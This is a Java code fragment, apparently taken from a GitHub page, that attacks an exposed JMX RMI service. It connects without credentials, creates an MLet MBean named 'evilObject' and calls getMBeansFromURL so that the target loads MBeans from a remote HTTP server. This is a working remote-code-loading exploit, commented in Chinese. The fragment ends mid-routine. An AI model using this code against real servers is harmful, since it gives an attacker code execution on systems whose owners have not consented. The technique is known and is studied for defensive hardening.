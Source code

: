 ```java
            JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://" + serverName + ":" + port + "/jmxrmi");

//            System.out.println("URL: " + jmxServiceURL + ", connecting");

            JMXConnector jmxConnector = JMXConnectorFactory.connect(jmxServiceURL, null);

//            System.out.println("Connected： " + jmxConnector.getConnectionId());

            MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();

            ObjectInstance evil_bean = null;

//            try{
//
//                evil_bean = mBeanServerConnection.getObjectInstance(new ObjectName(OBJECTNAME));
//
//            }catch (Exception e){
//
//                evil_bean = null;
//
//            }

            if(evil_bean == null){

                System.out.println("Trying to create bean...");

                ObjectInstance evilObject = null;

                try{

                    evilObject = mBeanServerConnection.createMBean("javax.management.loading.MLet", null);

                }catch (InstanceAlreadyExistsException e){

                    evilObject = mBeanServerConnection.getObjectInstance(new ObjectName("DefaultDomain:type=MLet"));

                }

                System.out.println("Load " + evilObject.getClassName());

                //调用getMBeansFromURL从远程服务器获取 MBean

                //加载包含 MLET 标记的文本文件，这些标记定义了要添加到 MBean 服务器的 MBean。

                //MLET 文件中指定的 MBean 将被实例化并在 MBean 服务器中注册。

                Object res = mBeanServerConnection.invoke(evilObject.getObjectName(), "getMBeansFromURL",

                        new Object[] {String.format("http://127.0.0.1:8000/mlet", InetAddress.getLocalHost().getHostAddress()) },

                        new String[] {String.class.getName()}

                );

                HashSet hashSet = (HashSet)res;

                Iterator iterator = hashSet.iterator();

```